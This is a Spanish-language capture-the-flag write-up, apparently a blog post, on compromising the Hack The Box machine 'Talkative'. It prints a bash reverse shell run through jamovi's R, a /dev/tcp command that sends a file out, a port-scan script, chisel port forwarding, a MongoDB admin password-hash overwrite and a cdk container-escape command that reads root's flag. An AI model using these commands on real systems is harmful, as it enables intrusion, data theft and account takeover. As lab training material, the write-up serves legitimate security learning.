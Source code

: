 ```yaml
---
title: Talkative
date: 2022-07-31 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: [bolt, jamovi, portforwarding, chisel, mongosh, rocketchat, dockerbreakout, cdk]     # TAG names should always be lowercase
---
```


En esta máquina vemos que está `Bolt` por detrás y `jamovi`, pudimos ver que pudimos usar al lenguaje `R` para ejecutar comandos.

```shell 
system('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"', intern=TRUE)
```
![imagen1](/assets/images/talkative1.png)

Una vez dentro de la máquina, encontramos un archivo donde encontramos unos usuarios y contraseñas, probramos todos los usuarios y `admin` como el usuario por defecto en Bolt.
Como no se tiene nc usamos el /dev/tcp para mandarnos la información

```shell
cat archivo.omv > /dev/tcp/10.10.10.10/443
```

Con esto nos logeamos al CMS y podemos retocar un archivo php que podemos ejecutar para entablarnos una reverse shell.

![imagen1](/assets/images/talkative2.png)

![imagen1](/assets/images/talkative3.png)

```shell
curl -s -X GET "http://talkative.htb/bundles.php"
```

Una vez dentro hacemos un escaneo de puertos con un script en bash

```shell
#!/bin/bash

function ctrl_c(){
	echo -e "\n\nSaliendo....."
	tput cnorm; exit 1
}

#Ctrl+c
trap ctrl_c INT

tput civis
for port in $(seq 1 65535); do

(echo "" > /dev/tcp/172.17.0.1/$port) 2>/dev/null && echo "Puerto Abierto > $port" &
done; wait

tput cnorm
```

Vemos que está abierto el puerto 22 por lo que probamos las contraseñas y usuarios en el primero contenedor y nos metemos como el usuario Saul.

En este punto vemos que está corriendo Mongodb por lo que hacemos uno de la herramienta chisel para traer ese puerto y procedemos a usar `mongos`

```shell
#Máquina Victima
chisel client 10.10.14.12:1234 R:27017:172.0.1.2:27017

#Máquina Atacante
chisel server -reverse -p 1234
```

Y usamos mongosh para tener interacción con la base de datos.

```shell
mongosh
Current Mongosh Log ID:	63180ff486cb73849a98e7bb
Connecting to:		mongodb://127.0.0.1:27017/?directConnection=true&serverSelectionTimeoutMS=2000&appName=mongosh+1.5.4
```

Y dentro de mongo usamos los siguiente y cambiamos la contraseña del usuario admin

```shell
show dbs
use <db>
show collections
db.<collection>.find()  #Dump the collection
db.<collection>.count() #Number of records of the collection
db.current.find({"username":"admin"})  #Find in current db the username admin

db.getCollection('users').update({username:"administrator"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
```

![imagen1](/assets/images/talkative4.png)

En rocket.chat tenemos vulnerabilidades que podemos explotar

![imagen1](/assets/images/talkative5.png)

Una vez dentro de otro contenedor podemos buscar como hacer un docker breakout con la herramienta `cdk`


```shell
cat < /dev/tcp/10.10.14.12/443 > cdk

sudo nc -lnvp 443 > cdk
```

Y luego con cdk podemos ver con la opción evaluate que hay una capability de leer archivos del sistema como root.

```shell
[Information Gathering - Services]
2022/09/07 04:04:11 sensitive env found:
	DEPLOY_METHOD=docker-official

[Information Gathering - Commands and Capabilities]
2022/09/07 04:04:11 available commands:
	find,node,npm,apt,dpkg,mount,fdisk,base64,perl
2022/09/07 04:04:11 Capabilities hex of Caps(CapInh|CapPrm|CapEff|CapBnd|CapAmb):
	CapInh:	0000000000000000
	CapPrm:	00000000a80425fd
	CapEff:	00000000a80425fd
	CapBnd:	00000000a80425fd
	CapAmb:	0000000000000000
	Cap decode: 0x00000000a80425fd = CAP_CHOWN,CAP_DAC_READ_SEARCH,CAP_FOWNER,CAP_FSETID,CAP_KILL,CAP_SETGID,CAP_SETUID,CAP_SETPCAP,CAP_NET_BIND_SERVICE,CAP_NET_RAW,CAP_SYS_CHROOT,CAP_MKNOD,CAP_AUDIT_WRITE,CAP_SETFCAP
	Add capability list: CAP_DAC_READ_SEARCH
[*] Maybe you can exploit the Capabilities below:
[!] CAP_DAC_READ_SEARCH enabled. You can read files from host. Use 'cdk run cap-dac-read-search' ... for exploitation.

root@c150397ccd63:/# ./cdk run cap-dac-read-search /root/root.txt
Running with target: /root/root.txt, ref: /etc/hostname
148a7c70be411c05278a09737e3d849e
```
